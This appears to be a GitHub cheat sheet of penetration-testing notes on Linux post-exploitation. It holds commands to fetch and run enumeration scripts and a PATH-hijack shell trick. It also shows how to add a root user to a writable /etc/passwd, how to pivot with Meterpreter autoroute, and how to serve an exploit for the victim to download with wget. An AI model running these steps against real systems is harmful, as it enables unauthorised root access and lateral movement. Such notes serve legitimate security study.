 # Linux Post Exploitation


<details>
    <summary></summary>
    <br>
</details>



<details>
    <summary>Useful tips</summary>
    <br>
    
**Upgrading basic shell to terminal**

    python -c 'import pty;pty.spawn("/bin/bash")';
    
</details>


    

<details>
    <summary>Enumeration</summary>
    <br>
    
## Manual Enumeration

    uname -a
       
    ps -aux 
    
    id
    
      Find out if the user is part of groups with interesting files
      
      find / -type f -group <group> 2>/dev/null
      
  - Find all writable direcotries for copying over scripts
  
        find / -writable
        
  - Check /etc/passwd for user/ group ids

    0 is typically root ( this can be <= 500) 
    
    1000+ is where new user accounts start
   
    
  - [LinEnum](https://github.com/rebootuser/LinEnum)  
  
        wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh          
          
  - [Local Linux Enumeration](https://www.rebootuser.com/?p=1623)
  
  
  See what sudo commands you can run
  
       sudo -l
       
</details>

<details>
    <summary>Maintain persistence</summary>
    <br>

## Metasploit modules    

  - Add user


  - Set a scheduled task
  
</details>

<details>
    <summary>Privilege escalation</summary>
    <br>
    
 Horizontal or vertical privilege escalation?
 
## Resources:
 
 
- [Privilege Escalation Cheatsheet ](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)

- [guide to priv escalation](https://payatu.com/guide-linux-privilege-escalation)
 
- [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md)
 
- [OSCP guide](https://sushant747.gitbooks.io/total-oscp-guide/privilege_escalation_-_linux.html)
 
 ## Metasploit 
  
    post/linux/
 
    post/multi/recon/local_exploit_suggester

## exploits

 - searchsploit linux kernel version
   
 - searchsploit linux version
    
 - [linprivchecker](https://github.com/reider-roque/linpostexp)
  
       wget https://raw.githubusercontent.com/reider-roque/linpostexp/master/linprivchecker.py
     
       python linprivchecker.py extended
     
- [Linux-exploit-suggester](https://github.com/mzet-/linux-exploit-suggester)

      wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh
      
      ./linux-exploit-suggester.sh
    
 <details>
    <summary>Diry Cow</summary>
    <br>
</details>

    
    
## scripts and resources

-------------------------------------------------------



-------------------------------------------------------

- [linpeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
   
        wget https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh
        
- [linpeas output explained](https://book.hacktricks.xyz/linux-unix/privilege-escalation)

--------------------------------------------------------




- **Also Read LinEnum output: **

- **Kernel Kernel information**

- **Can we read/write sensitive files:** The world-writable files are shown below. These are the files that any authenticated user can read and write to. By looking at the permissions of these sensitive files, we can see where there is misconfiguration that allows users who shouldn't usually be able to, to be able to write to sensitive files.

#



<details>
    <summary>SUID</summary>
    <br>
    
 (https://www.hackingarticles.in/linux-privilege-escalation-using-suid-binaries/) Files: SUID (Set owner User ID up on execution) is a special type of file permissions given to a file. It allows the file to run with permissions of whoever the owner is. If this is root, it runs with root permissions. It can allow us to escalate privileges.
     
    [Check GTFOBin first](https://gtfobins.github.io/)
    
    [Past SUID shells](https://github.com/Kahvi-0/Tools-and-Concepts/tree/master/Toolbox/Shells/SUID)
          
   Sometimes custom scripts will use relative pathing for commands rather than absolute. One way to abuse this would be to add . to your PATH and have a shell script in your working directory with the name of that command in the script. 
     
          echo /bin/sh > <command>    # To run <command> which then points to shell
          
          chmon 777 <command>
          
          export PATH=/<new dir>:$PATH
   
        #Manual  find directory -user root -perm -4000 -exec ls -ldb {} \; 2>&1 | grep -v "Permission denied"
        
         find / -perm -u=s -type f 2>/dev/null
</details>
         
#

<details>
    <summary>Crontab</summary>
    <br>
    
The scheduled cron jobs are shown below. Cron is used to schedule commands at a specific time. These scheduled commands or tasks are known as “cron jobs”. Related to this is the crontab command which creates a crontab file containing commands and instructions for the cron daemon to execute. There is certainly enough information to warrant attempting to exploit Cronjobs here.    
 
    cat /etc/crontab
 
 
</details>   

#


<details>
    <summary>Writable passwd file</summary>
    <br>

If we have a writable /etc/passwd file, we can write a new line entry according to the above formula and create a new user! We add the password hash of our choice, and set the UID, GID and shell to root. Allowing us to log in as our own root user!
    
 To create a new root user:
 
     Create password compliant hash
     
       openssl passwd -1 -salt [salt] [password]
       
     Add a new line in the passwd file
     
       <user>:<password hash>:root:/root:/bin/bash
</details>
    

#

</details>
   
 
<details>
    <summary>Pivoting</summary>
    <br> 

 If pwnd target has a connection to a network that we do not have a connection to, we can set up a route on the machine to forward our traffic 
 
   - Meterpreter 
       
       Note that the routes created via meterpreter only aspply to that isntance of metasploit.
        If modules are crashing the shell when trying to scan via metasploit module, try running the scan from the compromised machine itself, then launcing targeted attacks from metasploit. 
   
         run autoroute -s <target network seen via enumeration>/CIDR
         
         run autoroute -p   #to confirm
         
       you can now test by pinging a device on the remote network
       
</details>



<details>
    <summary>Methods to upload files to/from target</summary>
    <br>
    
  ## Downloading files

    python -m SimpleHTTPServer  #Host the web server
      wget <IP>:8000/exploit     # Download to victim machine

    python -m pyftpdlib 21      #Host ftp server
      ftp <IP>
      
</details>



